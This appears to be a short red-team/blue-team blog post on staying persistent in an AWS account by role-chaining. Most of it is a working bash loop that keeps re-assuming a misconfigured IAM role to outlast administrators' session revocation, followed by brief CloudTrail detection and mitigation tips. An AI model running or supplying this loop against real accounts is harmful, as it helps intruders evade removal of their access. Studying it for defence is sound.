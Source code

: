 ```yaml
---
title: "Role-chaining to stay persistent in AWS environment"
date: 2020-11-10T17:41:53+10:00
draft: false
---
```


Says... you have access to iam or role, administrators are onto you and trying to remove your access by revoking roles, removing iam users you created, etc..  How do you persist? Here is one way to do it...

## Red team: 

Find a role in current account using `aws iam list-roles
` with trust relationship set to `arn:aws:iam::{current_accountid}:root` and plug it in the script below. 

```bash
while [ 1 ]; \
do echo "[+] Acquiring new token using sts assume-role"; \
aws sts assume-role  --role-arn arn:aws:iam::{accountid}:role/{roleid} --role-session-name test`date +'%s'` --duration 3600 | \
jq -r '.Credentials|"export AWS_ACCESS_KEY_ID=\(.AccessKeyId)\nexport AWS_SECRET_ACCESS_KEY=\(.SecretAccessKey)\nexport AWS_SESSION_TOKEN=\(.SessionToken)"' > tmp.sh; \
source tmp.sh; \
aws sts get-caller-identity; \
done
```

You would be surprised that often times there are service roles which are misconfigured by some developers and end up granting the entire account ability to assume into that role. In many instances it could be used for privilege escalation but in this instance we just wanna stay persistent a bit longer. This script runs a loop to continously assume into that role by itself. The duration cannot be set higher than 3600 seconds because that is the maximum duration you can assume into another role when you are "role-chaining". 

The script works because there i a race condition happens between this script and when administrator hit the "revoke previous session" button which leads to creation of an inline IAM policy to revoke old sessions.  

### Blue team tips

 - Detect automated scripts by looking at big spike of AssumeRole events in Cloudtrail log
 - Use revoke token functionality and THEN modify the Revoke IAM policy with a timestamp in a couple of minutes into the future to make sure the changed is propagated and attacker cannot "renew" his/her token.
